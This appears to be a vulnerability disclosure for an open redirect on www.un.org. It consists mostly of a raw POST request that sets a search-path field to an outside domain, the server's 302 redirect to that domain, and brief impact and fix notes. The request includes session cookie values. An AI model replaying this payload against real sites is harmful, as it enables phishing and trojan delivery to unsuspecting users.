 #  Open Redirect On un.org
* `Exploit Author:` **Nguyen Phu Hung (d4rkp0w4r)**

![](https://i.imgur.com/wPonK36.png)
# Payload
* Request
```python=
POST /sg/en/global-leadership/home HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: SSESSe8bea8d1ed8440047996de4a00142329=bL70GWJjq8AxmGhy8_3-lXvJhGjRmuVIn4ZRhnl5idk; citrix_ns_id_.www.un.org_%2F_wlf=AAAAAAXsJ6Ae-yLZ4NLMRrQCOjVisYa6Nmr3owiMk4KAutLc5cRcFxuAP7pgsCTc9msvfij4p9lWva1HdzCKWEJfV4a7TX3qxA0OJ7EhMGCiddYTPHvxiamtIRwp17FquyhIeGvla2QpIcGJQd6nEXi6RYSE&; citrix_ns_id_.www.un.org_%2F_wat=AAAAAAVdO-U9HRucDJSPDirtqqCmqeilDrlUVWnkGpODkN6ddtEm4TlRl1ZzedW5bRS_QceNTpSj8x1qAEbcUa8QAIMy2_W0lO5CHjg1HQAIHnNj2oh_86jJMo0vcYyDz_BrPRIvvODlRwFbHFqWXEfwCN8c&
Content-Length: 174
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Host: www.un.org
Connection: Keep-alive

custom_search_paths=http://nangluongvico.com.vn/poc.html&form_build_id=form-8hF7N_zK7Go4ywHcTgCZNR6BL5gGUdP5OSASJJnFM9Y&form_id=search_block_form&op=Search&search_block_form=
```
* Response
```python=
HTTP/1.1 302 Found
Date: Sat, 23 Jul 2022 07:28:58 GMT
Server: Apache
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: SAMEORIGIN
From-Origin: same
Content-Language: en
Permissions-Policy: interest-cohort=()
Location: https://nangluongvico.com.vn/poc.html
Content-Length: 0
Keep-Alive: timeout=5, max=68
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
Strict-Transport-Security: max-age=31536000; includeSubDomains
```
# Impact 
* A remote attacker can redirect users from your website to a specified URL. This problem may assist an attacker to conduct phishing attacks, trojan distribution, spammers.

# Fix
* Your script should properly sanitize user input.

# POC VIDEO
https://drive.google.com/file/d/1UrP42GP2Bm0qrj9lHhffWZlkE_jliKon/view?usp=sharing
